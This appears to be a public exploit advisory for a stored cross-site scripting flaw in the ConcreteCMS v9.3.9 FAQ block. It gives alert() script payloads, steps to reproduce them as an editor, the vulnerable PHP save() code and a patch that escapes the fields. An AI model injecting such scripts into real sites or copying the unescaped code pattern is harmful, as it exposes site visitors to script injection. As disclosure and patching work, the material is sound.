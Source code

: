 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Navigation field、Title Text field、Description source field when adding a FAQ block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Navigation Link Text');</script>
<script>alert('Title Text');</script>
<script>alert('Description');</script>
```
1. Log in as a user with page editing privileges.
2. Click "add content to the page" in the top navigation.
3. Select the FAQ block , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Navigation Link Text field、Title Text、Description(source) and then click save,the xss vulnerability appears.

Potentially problematic source code:
```php
public function save($args)
    {
        $db = $this->app->make('database')->connection();
        $db->executeQuery('DELETE FROM btFaqEntries WHERE bID = ?', [$this->bID]);
        parent::save($args);
        $count = isset($args['sortOrder']) ? count($args['sortOrder']) : 0;

        $i = 0;
        while ($i < $count) {
            if (isset($args['description'][$i])) {
                $args['description'][$i] = LinkAbstractor::translateTo($args['description'][$i]);
            }

            $db->executeQuery(
                'INSERT INTO btFaqEntries (bID, title, linkTitle, description, sortOrder) VALUES(?,?,?,?,?)',
                [
                    $this->bID,
                    $args['title'][$i],
                    $args['linkTitle'][$i],
                    $args['description'][$i],
                    $args['sortOrder'][$i],
                ]
            );
            ++$i;
        }
    }
```

Patch:
```php
public function save($args)
{
    $db = $this->app->make('database')->connection();
    $db->executeQuery('DELETE FROM btFaqEntries WHERE bID = ?', [$this->bID]);
    parent::save($args);
    $count = isset($args['sortOrder']) ? count($args['sortOrder']) : 0;

    $i = 0;
    while ($i < $count) {
        // patch XSS
        if (isset($args['description'][$i])) {
            $args['description'][$i] = LinkAbstractor::translateTo($args['description'][$i]);
            // patch XSS
            $args['description'][$i] = h($args['description'][$i]);
        }

        if (isset($args['title'][$i])) {
            $args['title'][$i] = h($args['title'][$i]); // patch XSS
        }
        if (isset($args['linkTitle'][$i])) {
            $args['linkTitle'][$i] = h($args['linkTitle'][$i]); // patch XSS
        }

        $db->executeQuery(
            'INSERT INTO btFaqEntries (bID, title, linkTitle, description, sortOrder) VALUES(?,?,?,?,?)',
            [
                $this->bID,
                $args['title'][$i],
                $args['linkTitle'][$i],
                $args['description'][$i],
                $args['sortOrder'][$i],
            ]
        );
        ++$i;
    }
}

```